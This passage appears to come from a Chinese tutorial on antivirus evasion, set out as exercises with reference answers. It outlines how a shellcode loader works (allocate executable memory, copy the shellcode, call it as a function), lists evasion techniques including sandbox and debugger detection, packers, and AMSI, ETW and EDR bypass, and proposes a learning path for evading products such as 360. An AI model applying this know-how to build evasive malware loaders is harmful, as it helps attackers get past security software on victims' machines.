7. 节表（IMAGE_SECTION_HEADER）：每个节的信息，包括节名、大小、偏移、属性等
8. 各个节：.text（代码）、.data（数据）、.rdata（只读数据）、.rsrc（资源）、.reloc（重定位）等

---

### 习题2：Shellcode加载器

**题目：**
简述Shellcode加载器的基本原理，以及最简单的实现步骤。

**参考答案：**
Shellcode加载器的原理很简单，就是把Shellcode放到内存里，然后跳过去执行。

最简单的实现步骤：
1. 用VirtualAlloc分配一块内存，设置为可读可写可执行（或者先可读可写，后面再改权限）
2. 把Shellcode拷贝到分配的内存里
3. 把内存地址转换成函数指针
4. 调用函数指针，执行Shellcode

---

### 习题3：免杀技巧分类

**题目：**
免杀技巧可以分为哪几大类？每一类有哪些常见的技巧？

**参考答案：**
免杀技巧大致可以分为以下几类：

1. 静态免杀（对抗静态扫描）
   - Shellcode加密/混淆
   - 字符串加密/混淆
   - 动态获取API
   - 花指令
   - 控制流平坦化
   - 指令替换
   - PE头修改
   - 节区操作

2. 动态免杀（对抗动态分析/沙箱）
   - 沙箱检测（内存、CPU、硬盘、运行时间）
   - 调试器检测
   - 虚拟机检测
   - 延迟执行
   - 钩子检测与绕过

3. 加壳脱壳
   - 压缩壳（UPX、ASPack...）
   - 加密壳（ASProtect、Armadillo...）
   - 虚拟机壳（VMProtect、Themida...）

4. 高级免杀（对抗EDR）
   - 白利用
   - 无文件攻击
   - 间接系统调用
   - AMSI绕过
   - ETW绕过
   - 内核对抗

---

### 习题4：学习路径

**题目：**
如果你是一个编程小白，想从零开始学免杀，你会怎么安排学习路径？

**参考答案：**
这是一个开放性问题，每个人的学习方法不一样。

但是大致的路径应该是这样的：
1. 先补C语言基础（重点是指针、内存、结构体）
2. 学x86/x64汇编（常用指令、寄存器、栈、函数调用约定）
3. 学PE文件结构（DOS头、NT头、节表、导入表、导出表、重定位表）
4. 学Shellcode原理（什么是Shellcode、怎么生成、怎么加密）
5. 写第一个Shellcode加载器（最简单的内存加载）
6. 学静态免杀技巧（字符串混淆、控制流平坦化、花指令...）
7. 学动态免杀技巧（沙箱检测、调试器检测、延迟执行...）
8. 学加壳脱壳（压缩壳、加密壳、虚拟机壳、手动脱壳）
9. 学高级免杀技术（对抗EDR、无文件攻击、白利用、syscall...）
10. 不断实战，不断更新自己的免杀库

---

> 💡 **思考题**
> 你觉得学免杀最难的地方是什么？
> 如果你是小飞，在遇到360这座大山的时候，你会用什么方法去绕过？
> 欢迎在评论区分享你的想法。
